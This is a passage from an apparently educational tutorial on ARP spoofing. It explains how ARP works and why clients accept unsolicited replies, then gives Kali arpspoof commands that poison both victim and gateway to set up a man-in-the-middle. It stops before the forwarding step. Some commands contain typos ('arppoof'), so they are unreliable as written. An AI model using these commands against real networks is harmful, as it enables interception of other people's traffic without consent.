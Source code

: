 ARP stands for **Adress Resolution Protocol** this protocol helps us to link  IP addresses to MAC addresses .So whenever devices know each other's IP addresses they use ARP and send broadcast message (asking for that specific IP) in order to know the MAC address of the other device,(the devices which poses that specific IP will respond to that device by sending it's MAC Address).

Our goal is write a code which can perform  a *ARP SPOOF ATTACK* for us, at first lets know briefly about the ARP spoofing :
In this attack the attacker pretends to be router for the victim by taking router's MAC Address and for router the attacker acts as victim by taking its MAC Address and hence attacker become's the **man in the middle** between router and victim,which gives us a huge power you must also think that why ARP Spoof is possible so easily ?

- because clients <mark> accept responses </mark> even if they don't send a request.
- clients trust response without any form of <mark> validation </mark>.

Before writing any code you must know that **KALI** comes with inbuilt tools to perform **ARP SPOOF ATTACK**

run the below command to know your *gateway  IP* and the *interface*

```bash
root@kali:~# route -n

```

Scan all the clients connected to same network to mark your target and it's IP

```bash
root@kali:~# arpspoof -i (interface) -t (target ip)  (gateway ip )  

```
See interface depends you it can eth0/wlan0 anything below command is just an example:

```bash

root@kali:~# arppoof -i eth0 -t 10.0.2.4  10.0.2.1  

```
> The above command fools the target and makes you the router for the him.

In order to spoof the the router you need change the IP sequence in your command  (in different tab)

```bash
root@kali:~# arpspoof -i (interface) -t (gateway ip)  (target ip )  

```
example:

```bash
root@kali:~# arppoof -i eth0 -t 10.0.2.1  10.0.2.4

```

When your machine becomes router for victim and when recives an request it stops them flowing  to the router which is  default security feature built in *KALI* in order to enable port forwarding fix this issue run the below command(in different tab).

**RUN THIS COMMAND EVERYTIME TO ENABLE PORT FORWARDING AFTER AN ARP SPOOF ATTACK**

